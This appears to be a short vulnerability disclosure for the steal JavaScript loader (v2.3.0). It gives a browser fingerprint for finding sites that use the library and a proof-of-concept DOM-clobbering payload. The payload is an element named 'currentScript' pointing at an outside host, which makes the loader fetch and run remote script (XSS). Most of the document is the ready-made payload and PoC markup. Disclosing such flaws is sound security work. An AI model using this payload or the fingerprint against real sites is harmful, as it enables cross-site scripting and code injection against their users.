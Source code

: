 ## steal

### Meta

+ Library: steal
+ Stars: 1.4K
+ Version: v2.3.0
+ Fingerprint: `typeof window.steal !== 'undefined' && typeof window.steal.loader === 'object'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Mitre
+ Foundby: TheHulk


### Library

Built locally

https://github.com/stealjs/steal

### Vulnerable Code Snippet

too complicated.

## PoC

after running `npm install`

```
<!--Library-->
<script src="./node_modules/steal/steal.js" main></script>
<!--Library-->

<!--Payload-->
<image name="currentScript" src="http://localhost:9999"></image>
<!--Payload-->
```
